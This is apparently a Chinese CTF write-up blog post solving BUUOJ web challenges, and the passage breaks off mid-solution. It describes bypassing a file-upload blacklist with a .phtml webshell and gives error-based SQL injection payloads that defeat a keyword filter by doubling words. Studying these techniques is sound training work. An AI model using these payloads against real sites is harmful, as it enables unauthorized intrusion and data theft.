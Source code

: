```yaml
---
categories:
- Security
- CTF
date: '2023-04-28 16:59:00'
excerpt: false
hidden: false
thumbnail: /hide_imgs/post_thumbnail.png
title: BUUOJ——WEB（二）
updated: '2023-07-29 20:50:00'

---
```


## [ACTF2020 新生赛]Upload（1）

上传文件的题目，直接上传php文件，在前端被检测出来，提示只能使用gif，png，jpg等后缀，下断点绕过前端检测后，php文件仍无法上传，服务器过滤了黑名单"php"，尝试"PHP"，可以上传，但服务器无法解析为php文件（Linux？），尝试"phtml"，上传成功且服务器可以解析！直接利用一句话木马 `cat /flag` 即可

flag：flag{a8a3d35f-375b-44e1-932a-b9edcd5e76b0}

## [极客大挑战 2019]BabySQL（1）

Tips：本题直接在username中注入即可，passwd随便填写

### 解法一：报错注入

利用：`1' pat` 可以试探pat是否被过滤，测试发现"selelct","or","and","from"遭到了过滤，但只是删除一次完全匹配的字符串，可以利用"oorr"来绕过，单引号注入有效，登陆成功后只给了密码，flag需要利用报错注入得到

堆叠注入无效，分号没被过滤但无法利用分号执行多语句，会出现"SQL syntax error"

利用"extractvalue()"进行报错注入时应注意，若语句执行成功会出现"XPATH syntax error"，可以得到关键信息；若语句执行不成功会出现"SQL syntax error"，无法获得关键信息。应区分有效与无效的报错

**本题由于存在or过滤，很多函数包含or的都要反过滤**

获取库名：

```sql
1' oorr extractvalue(1, concat(0x7e, database(), 0x7e))#

-> XPATH syntax error: '~geek~'
```

获取表名：

```sql
1' oorr extractvalue(1, concat(0x7e, (seselectlect group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='geek'), 0x7e))    #

->~b4bsql,geekuser~
```

获取列名：
